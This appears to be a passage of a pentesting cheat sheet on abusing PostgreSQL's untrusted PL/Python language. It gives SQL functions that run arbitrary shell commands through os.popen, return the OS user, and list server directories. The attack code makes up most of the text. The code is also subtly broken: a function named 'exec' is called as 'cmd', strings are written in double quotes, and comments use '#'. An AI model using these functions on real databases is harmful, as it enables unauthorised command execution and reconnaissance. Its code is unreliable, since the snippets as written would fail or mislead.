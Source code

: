 Note that it's possible to compile the secure versions as "unsecure". Check [**this**](https://www.robbyonrails.com/articles/2005/08/22/installing-untrusted-pl-ruby-for-postgresql.html) for example. So it's always worth trying if you can execute code even if you only find installed the **trusted** one.

## plpythonu/plpython3u

{{#tabs}}
{{#tab name="RCE"}}

```sql
CREATE OR REPLACE FUNCTION exec (cmd text)
RETURNS VARCHAR(65535) stable
AS $$
    import os
    return os.popen(cmd).read()
    #return os.execve(cmd, ["/usr/lib64/pgsql92/bin/psql"], {})
$$
LANGUAGE 'plpythonu';

SELECT cmd("ls"); #RCE with popen or execve
```

{{#endtab}}

{{#tab name="Get OS user"}}

```sql
CREATE OR REPLACE FUNCTION get_user (pkg text)
RETURNS VARCHAR(65535) stable
AS $$
    import os
    return os.getlogin()
$$
LANGUAGE 'plpythonu';

SELECT get_user(""); #Get user, para is useless
```

{{#endtab}}

{{#tab name="List dir"}}

```sql
CREATE OR REPLACE FUNCTION lsdir (dir text)
RETURNS VARCHAR(65535) stable
AS $$
    import json
    from os import walk
    files = next(walk(dir), (None, None, []))
    return json.dumps({"root": files[0], "dirs": files[1], "files": files[2]})[:65535]
$$
LANGUAGE 'plpythonu';

SELECT lsdir("/"); #List dir
```
